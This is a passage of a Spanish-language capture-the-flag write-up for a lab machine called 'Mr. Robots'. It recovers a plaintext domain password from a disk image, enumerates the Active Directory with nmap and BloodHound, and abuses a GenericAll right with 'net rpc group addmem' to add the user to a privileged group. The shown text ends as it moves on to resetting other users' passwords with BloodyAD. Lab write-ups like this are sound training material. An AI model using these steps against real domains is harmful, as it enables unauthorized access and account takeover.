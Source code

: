 mrrobots

Post Explotación
Dentro del directorio .confidencial encontramos dos archivos, una imagen de disco ecorp.img y un archivo note.txt:

mrrobotsmrrobots

mrrobots

Podemos montar la imagen de disco o mirar su contenido también con herramientas como strings.

mkdir /mnt/ecorp
mount -o loop ecorp.img /mnt/ecorp
ls -l /mnt/ecorp
mrrobots

Dentro de todo el ruido del archivo fscociety00.dat encontramos las credenciales del usuario lloyd.chong las cuales nos sirven para el AD.

mrrobots

lloyd.chong:C6c56\2)+*gpxs#
Active Directory
Enumeración
sudo nmap -sS -Pn --open -vvv --min-rate 5000 -n 10.23.52.1 -oG allPorts

extractPorts allPorts

nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985 10.23.52.1 -oN targeted
Mr. Robots

Dominio: ecorp.thl

Añadimos ecorp.thl al /etc/hosts

echo '10.23.52.1 ecorp.thl' | sudo tee -a /etc/hosts
Como que tenemos las contraseña filtrada de lloyd.chong primero empezaré haciendo una enumeración vía Bloodhound.

bloodhound-python -u lloyd.chong -p'C6c56\2)+*gpxs#' -d ecorp.thl -ns 10.23.52.1 -c all --zip
Una vez en el Bloodhound lo primero que veo es el siguiente path:

Mr. Robots

Como que lloyd esta en el grupo ALLSAFE podemos abusar un GenericAll hacia E-CORP.

Para abusar he usado los siguientes comandos.

net rpc group addmem "E-CORP" "lloyd.chong" -U "ECORP"/"lloyd.chong"%"C6c56\2)+*gpxs#" -S "10.23.52.1"
Una vez ya estamos en el grupo E-CORP desde E-CORP podemos ver el siguiente path.

Mr. Robots

Aquí podemos cambiar la contraseña de estos tres usuarios.

En este caso solo voy a cambiar la de phillip y la de tyrell.

En este caso lo he hecho con BloodyAD.
